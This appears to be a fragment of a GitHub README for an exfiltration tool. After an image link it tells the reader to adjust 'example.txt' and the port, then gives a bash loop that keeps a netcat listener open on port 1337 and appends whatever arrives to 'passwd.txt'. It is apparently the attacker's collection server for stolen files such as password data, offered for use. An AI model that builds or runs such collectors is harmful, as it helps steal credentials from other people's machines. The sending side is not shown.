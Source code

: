 you need to change the example.txt and port if you wish!

to listen in your machine use this script
#!/bin/bash
while [ true ]
do
netcat -vlp 1337 &>> passwd.txt
done

